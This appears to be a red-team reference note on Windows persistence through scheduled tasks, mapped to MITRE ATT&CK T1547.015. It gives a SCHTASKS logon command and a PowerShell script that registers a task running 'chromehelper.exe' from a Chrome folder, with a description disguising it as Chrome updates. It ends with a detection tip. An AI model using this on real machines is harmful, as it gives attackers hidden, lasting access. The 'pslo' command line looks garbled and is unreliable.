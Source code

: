 # [Login item](https://attack.mitre.org/techniques/T1547/015/)

## Exploit syntax:

* SCHTASKS /CREATE /SC ONLOGON /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

1. Create ps1 file and input the following:

    ```powershell   

    # Here outpath is the location that your persistent file is. 
    
    $outpath = "C:\Program Files (x86)\Google\Chrome\Application\44.0.2403.155\chromehelper.exe"

    $action = New-ScheduledTaskAction -Execute $outpath

    $days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'

    $trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 9am
    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "chromehelper" -Description "This task grabs Chrome Official Updates."

    ```

2. Execute the following command:

    ```powershell

    pslo <name of the above codeblock>.ps1 

    ```


## Detection Technique
* Investigate file creation in the default windows task folder - C:\Windows\System32\Tasks folder.
